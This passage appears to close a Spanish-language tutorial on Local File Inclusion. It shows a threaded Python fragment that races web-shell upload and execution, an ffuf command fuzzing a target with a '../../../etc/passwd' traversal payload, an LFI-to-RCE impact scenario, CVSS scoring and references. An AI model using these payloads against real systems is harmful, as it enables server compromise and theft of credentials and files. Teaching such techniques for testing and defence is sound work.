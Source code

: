 ```python
    # Ejecutar concurrentemente
    t1 = threading.Thread(target=upload_shell)
    t2 = threading.Thread(target=execute_shell) 
  
    t1.start()
    t2.start()
  
    return execute_shell()
```

### Herramientas Automatizadas[^17]

**LFISuite:**

- Detección automatizada con múltiples payloads
- Bypass de filtros mediante encoding
- Escalada automática a RCE

**ffuf con wordlists específicas:**[^18]

```bash
ffuf -u "https://victima.com/app.php?FUZZ=../../../etc/passwd" \
     -w lfi_payloads.txt \
     -fw 485  # Filtrar respuestas con 485 palabras
```

## Impacto

### Escenario Real

Un atacante explota LFI en aplicación web para leer `/etc/passwd` y archivos de configuración, obteniendo credenciales de base de datos. Mediante log poisoning escala a RCE y compromete completamente el servidor. La fuga incluye código fuente de aplicación revelando otras vulnerabilidades críticas.[^1]

### Mapeo de Seguridad

- **OWASP:** A03:2021 - Injection, A05:2021 - Security Misconfiguration
- **CWE:** CWE-22 - Path Traversal, CWE-98 - PHP File Inclusion
- **CVSS v3.1:** Rango típico 6.0-9.0 (Medio-Crítico)[^20]

### Severidad CVSS

Para LFI con lectura de archivos sensibles:

```
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
Puntuación Base: 7.5
```

Para escalada LFI a RCE:

```
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
Puntuación Base: 9.8
```


[^1]: https://virtualcyberlabs.com/local-file-inclusion-lfi/
[^2]: https://atlansec.es/blog/posts/06-04-2025/
[^3]: https://www.invicti.com/learn/local-file-inclusion-lfi/
[^4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_File_Inclusion
[^5]: https://www.offsec.com/metasploit-unleashed/file-inclusion-vulnerabilities/
[^6]: https://www.hackplayers.com/2018/12/race-condition-phpinfo-mas-lfi-rce.html
[^7]: https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition
[^8]: https://www.fastly.com/blog/back-to-basics-directory-traversal
[^9]: https://www.invicti.com/learn/directory-traversal-path-traversal/
[^10]: https://www.invicti.com/blog/web-security/php-stream-wrappers/
[^11]: https://infosecwriteups.com/rce-via-lfi-oscp-tactics-for-code-execution-and-gaining-a-foothold-on-a-system-b35d0655f3c7
[^12]: https://nsfocusglobal.com/path-traversal-attack-protection/
[^13]: https://www.slideshare.net/slideshow/waf-bypassing-techniques/64302972
[^14]: https://bugbase.ai/blog/top-10-ways-to-bypass-waf
[^15]: https://bogner.sh/2018/04/race-to-rce-there-is-more-on-the-web-than-just-xss/
[^16]: https://github.com/topics/lfi-detection?o=asc\&s=updated
[^17]: https://www.acunetix.com/vulnerability-scanner/lfi-vulnerability-scanner/
[^18]: https://stackoverflow.com/questions/64088681/how-to-test-and-exploit-lfi-vulnerabilities
[^19]: https://www.brightsec.com/blog/lfi-attack-real-life-attacks-and-attack-examples/
[^20]: https://www.avertium.com/flash-notices/wordpress-review-plugin-local-file-inclusion
[^21]: https://support.polarisec.com/en/docs/general-knowledge/lfi-and-rfi-attacks/
[^22]: https://github.com/advisories/GHSA-qq86-38fr-rcf3
[^23]: https://nvd.nist.gov/vuln/detail/CVE-2025-49138
[^24]: https://github.com/advisories/GHSA-p75g-cxfj-7wrx
[^25]: https://www.cvedetails.com/cve/CVE-2025-51057/
[^26]: https://owasp.org/www-community/attacks/Path_Traversal
[^27]: https://www.exploit-db.com/exploits/52125
[^28]: https://portswigger.net/web-security/file-path-traversal
[^29]: https://www.riskinsight-wavestone.com/en/2022/09/barbhack-2022-leveraging-php-local-file-inclusion-to-achieve-universal-rce/
[^30]: https://nvd.nist.gov/vuln/detail/CVE-2025-26905
[^31]: https://techbrunch.github.io/patt-mkdocs/Directory Traversal/
[^32]: https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-2/
[^33]: https://www.cve.org/cverecord?id=CVE-2025-0632
[^34]: https://www.aikido.dev/blog/path-traversal-in-2024-the-year-unpacked
[^35]: https://patchstack.com/articles/critical-lfi-to-rce-vulnerability-in-wp-ghost-plugin-affecting-200k-sites/
[^36]: https://wpscan.com/vulnerability/7570bd32-f660-44e7-abc6-5d4ea369fe30/
[^37]: https://advisories.checkpoint.com/defense/advisories/public/2024/cpai-2024-0395.html/
[^38]: https://deephacking.tech/php-wrappers-pentesting-web/
[^39]: https://www.cobalt.io/blog/a-pentesters-guide-to-file-inclusion
[^40]: https://brightsec.com/blog/local-file-inclusion-lfi/
[^41]: https://4geeks.com/lesson/local-file-inclusion-remote-file-inclusion
[^42]: https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass
[^43]: https://github.com/topics/lfi-scanner
[^44]: https://www.yeswehack.com/learn-bug-bounty/practical-guide-path-traversal-attacks
[^45]: https://medium.verylazytech.com/enhancing-your-understanding-of-local-file-inclusion-lfi-35a26f9efadd
[^46]: https://code.google.com/archive/p/teenage-mutant-ninja-turtles/wikis/AdvancedObfuscationPathtraversal.wiki
[^47]: https://fluidattacks.com/es/advisories/silva
[^48]: https://hackmd.io/@Solderet/list/%2FgZFHwwuQQo6ya_Q6ULYrdA
[^49]: https://www.scribd.com/document/857621425/Advanced-LFI-Bypass-Techniques
[^50]: https://gynvael.coldwind.pl/?id=418
[^51]: https://waf-bypass.com/2025/03/page/2/
[^52]: https://help.fortinet.com/fweb/605/Content/FortiWeb/fortiweb-admin/web_protection.htm
[^53]: https://www.youtube.com/watch?v=5g137gsB9Wk
[^54]: https://infosecwriteups.com/️-how-to-bypass-web-application-firewalls-wafs-8346e6e79dd3
[^55]: https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/783
[^56]: https://waf-bypass.com/2025/05/